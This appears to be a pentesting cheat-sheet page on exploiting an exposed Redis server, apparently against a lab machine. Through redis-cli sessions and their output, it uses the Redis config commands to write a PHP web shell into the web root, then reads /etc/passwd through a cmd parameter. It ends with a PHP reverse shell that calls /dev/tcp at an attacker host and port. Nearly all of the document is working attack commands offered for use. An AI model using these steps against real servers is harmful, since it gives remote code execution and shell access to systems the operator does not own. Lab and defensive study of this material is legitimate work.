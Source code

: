 ```yaml
---
title: Redis database 🦈
---
```


# How to deal with a Redis database?

- Download redis-tools: `sudo apt install redis-tools`
- Use the following command to gather info: `info`
- Introduce a php RCE:

```shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redis.php
OK
10.10.60.159:6379> set test "<?php phpinfo(); ?>"
OK
10.10.60.159:6379> save
OK
```

- Now in Firefox, navigate to `<target-ip>/redis.php`
- If it is shown the phpinfo() file, the try to run this to get a shell:

```shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redisshell.php
OK
10.10.60.159:6379> set test "<?php system($_GET['cmd']); ?>"
OK
10.10.60.159:6379> save
OK
```

- Now on the web-nav put something like this: `view-source:http://10.10.60.159/redisshell.php?cmd=%20cat%20/etc/passwd`
- Now set up a listener and create a simple reverse php shell:

```shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redisshell.php
OK
10.10.60.159:6379> set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/<attck-ip>/<port> 0>&1'\"); ?>"
OK
10.10.60.159:6379> save
OK
```
